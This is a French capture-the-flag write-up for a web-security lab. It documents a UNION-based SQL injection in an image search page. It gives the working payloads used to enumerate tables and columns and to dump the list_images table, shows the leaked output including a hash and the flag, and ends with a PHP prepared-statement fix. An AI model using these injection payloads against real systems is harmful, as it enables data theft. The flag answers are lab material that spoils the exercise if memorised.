






FLAG 6 (search_image_sql_inj_union)
---

# 1. Explication

## **1.1. Ce qui se passe**

Cette page sert à chercher des images. On donne un critère, et le site affiche une liste d'images.

## **1.2. La faille**

On utilise une technique d'union. On demande au site : "Affiche-moi les images qui correspondent à ma recherche, **ET on colle à la suite la liste des utilisateurs cachés**". 

Le site a obéi et a fusionné deux listes qui n'ont rien à voir : la liste des images (publique) et la liste des utilisateurs (privée).

## **1.3. L'impact**

Cela permet de récupérer toute la base de données en la faisant passer pour des résultats de recherche anodins.

# 2. Demonstration

Sur la page media ce trouve un champs de recherche :



Dans ce champs, je vais lister toutes les tables de la base de données

```bash
-1 UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() #
```



On trouve alors la table `list_image`

`list_image` en Hexadécimal : `0x6c6973745f696d61676573`

---

J’affiche les colonnes de la table :

```bash
-1 UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573 #
```



Je trouve “id”, “url”, “title” et “comment”.

---

J’affiche le contenu de la colonne `comment`

```bash
-1 UNION SELECT 1, group_concat(title, 0x3a, comment) FROM list_images #
```



```bash
ID: -1 UNION SELECT 1, group_concat(title, 0x3a, comment) FROM list_images # 
Title: Nsa:An image about the NSA !,42 !:There is a number..,Google:Google it !,Earth:Earth!,Hack me ?:If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

Le flag est présent en description d’une image :

```bash
flag ! : 1928e8083cf461a51303633093573c46
md5 : albatroz
```





<aside>
✅

FLAG 6 TROUVÉ : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

</aside>

# 3. Remediation

L’utilisation de requêtes préparé avec des placeholders est la solution. 

Elle sépare la commande SQL de la recherche utilisateur.

**Code corrigé :**

```php
$search = $_GET['id'];

// 1. On utilise un marqueur "?" pour la valeur recherchée
$stmt = $pdo->prepare("SELECT title, url FROM images WHERE id = ?");

// 2. On exécute la requête en passant la variable dans un tableau
// La base de données va traiter $search comme une simple chaîne de caractères,
// jamais comme une commande SQL. Le "UNION SELECT" deviendra juste du texte inoffensif.
$stmt->execute([$search]);

$images = $stmt->fetchAll();
```
